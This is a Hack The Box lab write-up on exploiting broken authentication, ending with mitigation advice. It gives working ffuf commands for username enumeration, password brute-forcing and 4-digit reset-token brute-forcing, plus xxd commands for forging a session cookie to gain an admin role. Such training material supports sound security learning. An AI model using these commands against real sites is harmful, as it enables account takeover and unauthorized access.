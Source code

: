 **Hack The Box Writeup: Broken Authentication**

By Ramyar Daneshgar 

## **Introduction**

In this lab, I conducted a penetration test against a web application to identify and exploit broken authentication vulnerabilities. My objective was to systematically enumerate users, leverage credential stuffing, manipulate authentication tokens, and escalate privileges to gain administrative access. This writeup follows an offensive security methodology, utilizing enumeration techniques, brute-force attacks, token hijacking, and session manipulation. 


## **Step 1: Enumerating Users**

### **Objective:** Identify valid usernames through response-based enumeration.

User enumeration occurs when an application provides different error messages for invalid usernames versus incorrect passwords. This information disclosure vulnerability allows an attacker to verify valid accounts through systematic queries.

### **Process & Logic:**

1. I navigated to the authentication page and attempted login with random credentials.
2. Using browser DevTools (Ctrl + Shift + E), I analyzed the HTTP responses.
3. I found that incorrect usernames returned an "Unknown user" error, while incorrect passwords for valid users returned "Incorrect password." This difference allowed me to infer valid usernames.
4. To automate this attack, I used `ffuf`, a fast web fuzzer:

```bash
ffuf -w /opt/useful/SecLists/Usernames/xato-net-10-million-usernames.txt \
     -u http://STMIP:STMPO/index.php \
     -X POST -H "Content-Type: application/x-www-form-urlencoded" \
     -d "username=FUZZ&password=123" -fr "Unknown user."
```

- `-w`: Specifies the wordlist containing potential usernames.
- `-X POST`: Ensures the request is a POST request.
- `-H`: Sets the request header for proper content type.
- `-d`: Sends form data, fuzzing the `username` field.
- `-fr "Unknown user."`: Filters out responses containing "Unknown user." since that indicates a non-existent username.

This technique successfully revealed valid usernames.

---

## **Step 2: Brute-Forcing Credentials**

### **Objective:** Exploit weak password policies to obtain valid credentials.

Once I identified a valid username, I proceeded with a credential brute-force attack.

### **Process & Logic:**

1. I observed the web application’s password policy, which required at least one uppercase letter, one lowercase letter, and one digit, with a minimum length of 10 characters.
2. I filtered `rockyou.txt` to include only compliant passwords:

```bash
sudo grep '[[:upper:]]' /opt/useful/SecLists/Passwords/Leaked-Databases/rockyou.txt | \
grep '[[:lower:]]' | grep '[[:digit:]]' | grep -E '.{10}' > rockyouTrimmed.txt
```

- `grep '[[:upper:]]'`: Filters passwords containing at least one uppercase letter.
- `grep '[[:lower:]]'`: Ensures passwords have lowercase letters.
- `grep '[[:digit:]]'`: Filters passwords with at least one number.
- `grep -E '.{10}'`: Ensures the password length is 10 or more.

3. I executed a brute-force attack using `ffuf`:

```bash
ffuf -w rockyouTrimmed.txt -u http://STMIP:STMPO/index.php \
     -X POST -H "Content-Type: application/x-www-form-urlencoded" \
     -d "username=admin&password=FUZZ" -fr "Invalid username or password." -t 60
```

- This systematically tested passwords from my filtered list against the admin account.
- The correct password was identified, granting me access.

---

## **Step 3: Exploiting Weak Password Reset Tokens**

### **Objective:** Exploit short-lived OTP vulnerabilities to take over an account.

The password reset feature used a **4-digit OTP**, which is easily brute-forced.

### **Process & Logic:**

1. I requested a password reset and intercepted the link containing `token=XXXX`.
2. I generated a wordlist of all 4-digit combinations:

```bash
seq -w 0000 9999 > tokens.txt
```

- `seq -w 0000 9999`: Generates numbers from 0000 to 9999, ensuring uniform length.

3. I launched a brute-force attack using `ffuf`:

```bash
ffuf -w tokens.txt -u http://STMIP:STMPO/reset_password.php?token=FUZZ \
     -fr "The provided token is invalid" -t 60
```

- Since there are only 10,000 possible values, brute-forcing is trivial.
- I obtained a valid OTP and reset the admin password.

---

## **Step 4: Authentication Bypass via Insecure Direct Object Reference (IDOR)**

### **Objective:** Exploit IDOR to gain admin access.

IDOR vulnerabilities occur when an application improperly verifies access controls, allowing users to access unauthorized resources.

### **Process & Logic:**

1. I attempted to access `/admin.php`, which redirected me away.
2. Using Burp Suite, I intercepted the request and found that the response still contained admin panel content.
3. By manually accessing the leaked URL, I bypassed authentication and gained admin access.

This demonstrated a **lack of proper authorization checks**.

---

## **Step 5: Session Hijacking via Token Manipulation**

### **Objective:** Escalate privileges by modifying session tokens.

Session tokens should be encrypted and integrity-checked to prevent manipulation. However, in this case, they were stored in plaintext hexadecimal format.

### **Process & Logic:**

1. I examined the session cookie and decoded it:

```bash
echo -n '757365723d6874622d7374646e743b726f6c653d75736572' | xxd -r -p
```

- `xxd -r -p`: Decodes hexadecimal data into plaintext.
- Output: `user=htb-stdnt;role=user`

2. I modified the session role to `admin` and re-encoded it:

```bash
echo -n 'user=htb-stdnt;role=admin' | xxd -p
```

3. I replaced my session cookie with the modified value, successfully escalating privileges.

This demonstrated a **lack of session integrity verification**, allowing unauthorized privilege escalation.

---

## **Lessons Learned & Mitigation Strategies**

### **Preventing User Enumeration:**

- Implement **generic error messages** for failed logins.
- Enforce **rate-limiting and progressive delays** on failed authentication attempts.

### **Defending Against Brute-Force Attacks:**

- Implement **account lockouts and MFA**.
- Require **stronger password policies**.

### **Securing OTP Mechanisms:**

- Use **6-digit+ OTPs** with **time-based expiration (TOTP)**.
- Apply **rate-limiting to OTP verification attempts**.

### **Mitigating IDOR Vulnerabilities:**

- Enforce **server-side access control validation**.
- Use **UUIDs instead of sequential numeric IDs**.

### **Securing Session Tokens:**

- Encrypt and sign tokens to prevent tampering.
- Implement **short-lived session expiration**.



